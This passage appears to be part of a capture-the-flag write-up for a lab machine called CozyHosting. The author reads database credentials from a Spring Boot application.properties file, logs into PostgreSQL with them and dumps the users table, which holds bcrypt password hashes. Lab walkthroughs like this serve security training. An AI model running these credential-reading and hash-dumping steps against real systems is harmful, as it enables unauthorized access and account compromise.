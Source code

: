 I can try to read `BOOT-INF/classes/application.properties` in spite of finding some creds:

```shell
cat BOOT-INF/classes/application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

> Got creds for the database :D `postgres:Vg&nvzAQ7XxR`

I connected to the database using **psql**:

```shell
psql -h 127.0.0.1 -p 5432 -U postgres
```

![](Pasted%20image%2020250208223635.png)

I listed the databases using `\l`:

![](Pasted%20image%2020250208223601.png)

Then I switched to the `cozyhosting` database:

```shell
\c cozyhosting
```

![](Pasted%20image%2020250208223817.png)

Now I listed the content of it:

```shell
\dt
```

![](Pasted%20image%2020250208223846.png)

Now I list all the info of table `users`:

```sql
SELECT * FROM users;
```

![](Pasted%20image%2020250208224057.png)

```sql
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```
